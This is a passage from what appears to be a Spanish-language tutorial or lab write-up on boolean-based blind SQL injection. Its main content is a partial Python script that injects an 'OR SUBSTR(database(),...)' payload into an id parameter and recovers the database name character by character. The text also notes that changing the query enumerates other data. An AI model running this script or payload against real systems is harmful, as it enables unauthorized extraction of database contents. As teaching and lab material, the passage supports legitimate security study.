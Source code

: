 ```python
    length+=1
  for position in range(1,length+1):
    for character in characters:
      sqli = main_url + "?id=9'OR SUBSTR(database(),%d,1)='%s'-- -" % (position,character)

      r = requests.get(sqli)

      if "Producto encontrado" in r.text:
        string+=character
        print(f"El carácter de la posición {position} es: {character}")
        break

	return string

if __name__ == "__main__":
  string = make_SQLi()
  print(f"La información es: {string}")

```


Simplemente para querer enumerar otros datos, cambiamos la query del script y ya:

![img](/assets/img/sqli/script_boolean2.png)

Y con ese cambio ya podemos ver los datos que queremos.

![img](/assets/img/sqli/script_boolean3.png)
